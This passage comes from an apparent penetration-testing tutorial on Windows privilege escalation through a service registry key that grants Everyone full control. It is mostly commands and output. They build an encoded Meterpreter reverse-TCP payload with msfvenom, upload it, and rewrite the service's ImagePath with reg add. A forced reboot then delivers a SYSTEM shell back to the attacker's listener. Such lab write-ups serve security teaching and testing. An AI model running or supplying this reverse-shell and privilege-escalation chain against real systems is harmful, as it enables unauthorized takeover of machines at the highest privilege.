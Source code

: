 C:\Users\testuser\AppData\Local\Temp>
```
Focus on 20th to 23rd lines. It says Everyone has Full Control on this registry key. It means we can change executable path of this service by editing ImagePath value. It’s a huge security weakness.
If we generate a simple reverse shell payload and drop it to our target, all that remains is changing ImagePath value for our vulnerable service with our payload’s path.
Let’s generate a simple reverse shell payload:
```
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=192.168.2.60 LPORT=8989 -f exe -o Payload.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 360 (iteration=0)
x86/shikata_ga_nai chosen with final size 360
Payload size: 360 bytes
Final size of exe file: 73802 bytes
Saved as: Payload.exe
```
Drop it to target machine:
```
meterpreter > pwd
C:\Users\testuser\AppData\Local\Temp
meterpreter > upload -f subinacl.exe
[*] uploading  : Payload.exe -> Payload.exe
[*] uploaded   : Payload.exe -> Payload.exe
meterpreter >
```
Now let’s change the ImagePath value with our payload’s path.
```
meterpreter > shell
Process 280 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\testuser\AppData\Local\Temp>reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Vulnerable Service" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\testuser\AppData\Local\Temp\Payload.exe" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Vulnerable Service" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\testuser\AppData\Local\Temp\Payload.exe" /f
The operation completed successfully.
C:\Users\testuser\AppData\Local\Temp>
```
At the next start of the service, Payload.exe will run as SYSTEM. But remember, we had to restart the computer to do this.
```
C:\Users\testuser\AppData\Local\Temp>shutdown /r /t 0
shutdown /r /t 0
C:\Users\testuser\AppData\Local\Temp>
[*] 192.168.2.6 - Meterpreter session 1 closed.  Reason: Died
```
Our target machine is restarting now. Prepare your handler! Soon, our payload will work as SYSTEM.
```
msf exploit(handler) > run
[*] Started reverse TCP handler on 192.168.2.60:8989 
[*] Starting the payload handler...
[*] Sending stage (957999 bytes) to 192.168.2.6
[*] Meterpreter session 2 opened (192.168.2.60:8989 -> 192.168.2.6:49156) at 2017-01-16 03:59:58 -0500
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
[*] 192.168.2.6 - Meterpreter session 2 closed.  Reason: Died
```
```